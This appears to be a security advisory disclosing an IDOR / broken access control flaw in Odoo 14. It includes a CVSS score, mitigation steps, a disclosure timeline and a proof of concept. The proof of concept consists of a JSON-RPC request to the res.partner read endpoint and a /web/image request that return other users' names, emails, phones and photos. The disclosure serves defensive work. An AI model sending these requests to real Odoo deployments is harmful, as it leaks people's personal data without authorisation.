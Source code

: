 # Odoo 14 - Insecure Direct Object Reference (IDOR) / Broken Access Control

## 📌 CVE ID
- Pending assignment from MITRE

## 📌 Description
A vulnerability in **Odoo 14** allows authenticated low-privilege users (with no assigned roles) to access sensitive customer and employee data.  
The endpoints `/web/dataset/call_kw/res.partner/read` and `/web/image` do not enforce proper access control, resulting in unauthorized disclosure of Personally Identifiable Information (PII).

---

## 🎯 Affected Versions
- Odoo 14 (Community & Enterprise)  
- Other versions (15, 16, 17) not tested yet.  

---

## 🛠 Vulnerability Type
- Insecure Direct Object Reference (IDOR)  
- Broken Access Control  
- Sensitive Information Disclosure  

---

## ⚠️ Impact
- Unauthorized exposure of customer and employee data:
  - Full names  
  - Emails  
  - Phone numbers  
  - Job titles  
  - Company addresses  
  - Profile images (Base64 encoded)  
- Potential compliance violation (GDPR, CCPA).  
- Risk of further data mining.  

**CVSS v3.1 Vector (example):**  
`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **Score: 7.5 (High)**  

---

## 🧪 Steps to Reproduce (PoC)

1. Login with a **basic user account** (no special roles).  
2. Intercept the following request in Burp Suite:

```http
POST /web/dataset/call_kw/res.partner/read HTTP/1.1
Host: target-odoo:8069
Content-Type: application/json
Cookie: session_id=<valid_session_id>

{
 "jsonrpc": "2.0",
 "method": "call",
 "params": {
   "args": [[39], ["id","name","email","phone","function","image_128"]],
   "model": "res.partner",
   "method": "read",
   "kwargs": {}
 },
 "id": 12345
}
```

3. Response returns details of another user:

```json
{
 "id": 39,
 "name": "Chester Reed",
 "email": "chester.reed79@example.com",
 "phone": "(979)-904-8902",
 "function": "Chief Executive Officer (CEO)",
 "image_128": "/9j/4AAQSkZJRgABAQEASABIAAD..."
}
```

4. Similarly, user images can be accessed directly:

```http
GET /web/image?model=res.users&field=image_128&id=8
```

→ Returns profile photo of another user.  

---

## 📷 Evidence
![Request 1](/evidence/Screenshot%202025-08-25%20132025.png)  
![Request 2](/evidence/Screenshot%202025-08-25%20132045.png)  
![Request 3](/evidence/Screenshot%202025-08-25%20132147.png)  
![Request 4](/evidence/Screenshot%202025-08-25%20132203.png)  
![Request 5](/evidence/Screenshot%202025-08-25%20132300.png)  
![Request 6](/evidence/Screenshot%202025-08-25%20132432.png)  
![Request 7](/evidence/Screenshot%202025-08-25%20132456.png)  

---

## 🔒 Mitigation
- Enforce record rules on `res.partner` and `res.users` models.  
- Add access control checks before returning PII.  
- Restrict `/web/image` to authorized users only.  
- Ensure ORM respects ACL/Record Rules for all JSON-RPC endpoints.  

---

## 📅 Disclosure Timeline
- 2025-06-25: Vulnerability discovered on Odoo 14 demo.  
- 2025-08-25: Requesting CVE from MITRE.  

---

## 👤 Credits
- Researcher: **Abdulaziz Alanazi - Resilience**
